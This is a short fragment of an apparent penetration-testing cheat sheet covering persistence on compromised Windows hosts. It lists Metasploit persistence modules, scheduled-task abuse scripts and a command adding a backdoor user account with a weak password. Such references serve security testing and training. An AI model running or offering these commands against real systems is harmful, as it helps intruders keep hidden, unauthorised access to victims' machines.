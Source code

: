 # 5. Persistence/Maintaining Access
*   Persistence Scripts
    *   run persistence -h
    *   exploit/windows/local/persistence
    *   exploit/windows/local/registry\_persistence
*   Scheduled Tasks
    *   run scheduleme
    *   run schtaskabuse
*   Add a user
    *   net user hacker password123 /add